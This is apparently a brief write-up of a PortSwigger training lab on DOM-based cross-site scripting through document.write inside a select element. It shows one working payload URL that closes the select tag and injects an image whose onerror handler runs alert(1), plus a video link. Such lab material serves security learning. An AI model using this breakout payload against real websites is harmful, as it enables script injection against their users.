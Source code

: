 #  DOM XSS in document.write sink using source location.search inside a select element

![image](https://github.com/offensivecyber03/PortSwigger/assets/71892943/283bc7bf-1205-4f13-904b-0e4a0ba39e7e)

Last change to url:
`product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>`
 Explanation on you tube:
 https://youtu.be/AsR-YeaD5Iw
